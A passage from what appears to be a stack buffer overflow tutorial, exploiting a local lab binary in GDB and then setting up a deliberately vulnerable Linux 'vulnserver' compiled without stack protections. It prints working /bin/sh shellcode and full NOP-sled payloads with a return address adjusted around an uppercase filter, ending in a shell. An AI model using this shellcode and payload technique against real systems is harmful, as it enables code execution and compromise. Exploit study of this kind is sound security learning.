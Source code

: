 The chars on our shell code not contain these bad chars so we still use it:
```
\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80
```

So now we need to make SLAD to our shell code, since we know that the segmentation fault occur on 500 chars long we can calculated what we need:
```
run $(python2 -c "print '\x90'*468+'\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80'+'\x62\x62\x62\x62'")
```

Please note, the `\x62` is `b`, since I want to see EIP overwrite with BBBB and since we have convertToUppercase function, I must to use lowercase `b` for that case.

![bo-022.png](/assets/images/bo-022.png)
**Figure 22** Running the code with overwrite the EIP.

Now, think about it, if we must write `\x62` for get `\x42` as the output for overwrite the EIP, it's mean that we must insert EIP address that contain value of uppercase for the address that point to our SLAD, so let's check the ESP what is that address.

![bo-023.png](/assets/images/bo-023.png)
**Figure 23** Searching for the correct address.

After we found the address that point out to out NULL chain bytes, we need to convert that to "uppercase" so we can use it on the EIP, so in my case the address is `0xffffcfe0` which mean that the EIP should be overwrite with `\xe0\xcf\xff\xff`, so by convert to we should get `\x00\xef\x1f\x1f`, but since we can't use `\x00` we need to use some other char, so give it more for byte lead as to the following `\x04\xef\x1f\x1f` which should be change by the uppercase function to `0xffffcfe4`.
```
run $(python2 -c "print '\x90'*468+'\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80'+'\x04\xef\x1f\x1f'")
```
Then BOIA!!!! we have a shell!

![bo-024.png](/assets/images/bo-024.png)
**Figure 24** Shell from GDB.

So, far we work on GDB for local buffer overflow example, I think that after we understand the way and the path we take to bring down the binary and execute shell code directly from it, we can move forwared to see how buffer overflow occur for binary that used for server side and use socket between the client to the server, in such case it's more interesting how that overflow occur.

In my case I am using vulnserver for linux, that you can find [here](https://raw.githubusercontent.com/ins1gn1a/VulnServer-Linux/master/vuln.c), first we download that c code file and compile it.

```bash
wget https://raw.githubusercontent.com/ins1gn1a/VulnServer-Linux/master/vuln.c
gcc -fno-stack-protector -z execstack -no-pie  -m32 -o ./vulnserver ./vuln.c
```

So now, we going to run that vulnserver and debug it using EDB, so we can track down the socket and understand how it manage data, also we now will view on the EDB which is another way for debugging binary file on linux.
